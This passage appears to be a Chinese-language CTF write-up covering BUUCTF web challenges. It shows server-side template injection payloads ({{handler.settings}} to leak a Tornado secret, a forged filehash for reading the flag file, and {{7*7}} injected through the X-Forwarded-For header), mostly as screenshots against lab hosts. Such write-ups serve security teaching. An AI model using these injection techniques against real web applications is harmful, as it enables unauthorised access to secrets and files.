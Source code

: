 原文链接：https://blog.csdn.net/weixin_45253573/article/details/109623436

构造payload

```url
http://71b049e4-2a5f-4cea-a666-759c79785d23.node3.buuoj.cn/error?msg={{handler.settings}}
```

![image-20210428172125120](https://tva1.sinaimg.cn/large/008i3skNly1gq0s6er5rvj3130098myt.jpg)

对文件名加密处理

![image-20210428172305117](https://tva1.sinaimg.cn/large/008i3skNly1gq0s6dycuxj30mc0d177a.jpg)



加密处理

![image-20210428172159290](https://tva1.sinaimg.cn/large/008i3skNly1gq0s57fgapj30q30atmzs.jpg)

构建payload

```
http://71b049e4-2a5f-4cea-a666-759c79785d23.node3.buuoj.cn/file?filename=%2ffllllllllllllag&filehash=b78fdb227df9272aed37a89d3b610c67
```

得到flag

![image-20210428172011391](https://tva1.sinaimg.cn/large/008i3skNly1gq0s58kpauj30xn0fqdht.jpg)



## [BJDCTF2020]The mystery of ip

1. 进入flag.php

![image-20210429122809136](https://tva1.sinaimg.cn/large/008i3skNly1gq0s60tqfxj30pr0cmwhl.jpg)

2. hint.php

![image-20210429122951771](https://tva1.sinaimg.cn/large/008i3skNly1gq0s5ziffbj312y0btgo7.jpg)

显示出来ip，那么就看一下xff字段

![image-20210429123859602](https://tva1.sinaimg.cn/large/008i3skNly1gq0s5kqplyj30z90bi40l.jpg)

很显然随着xff改变，页面回显也发生变化

尝试ssti注入

{{7*7}}

![image-20210429124149309](https://tva1.sinaimg.cn/large/008i3skNly1gq0s54ynh4j30sn0d3mza.jpg)

查看配置文件

![image-20210429124329519](https://tva1.sinaimg.cn/large/008i3skNly1gq0s3ri05dj30xv0j9wj3.jpg)
